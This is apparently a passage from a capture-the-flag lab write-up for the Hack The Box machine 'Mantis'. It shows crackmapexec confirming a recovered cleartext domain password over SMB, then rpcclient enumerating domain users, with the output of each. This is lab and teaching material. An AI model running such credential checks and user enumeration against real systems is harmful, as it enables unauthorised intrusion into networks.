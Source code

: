 ![](./images/8.png)

![](./images/9.png)

- The creds are valid 
```
└─$ crackmapexec smb 10.10.10.52 -u james -p 'J@m3s_P@ssW0rd!'
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] htb.local\james:J@m3s_P@ssW0rd!
```

- Let's  enumerate users
  - Seens like only `james` and `Administrator` exist 
```
└─$ rpcclient -U htb.local/james 10.10.10.52
Password for [HTB.LOCAL\james]:
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[james] rid:[0x44f]
```
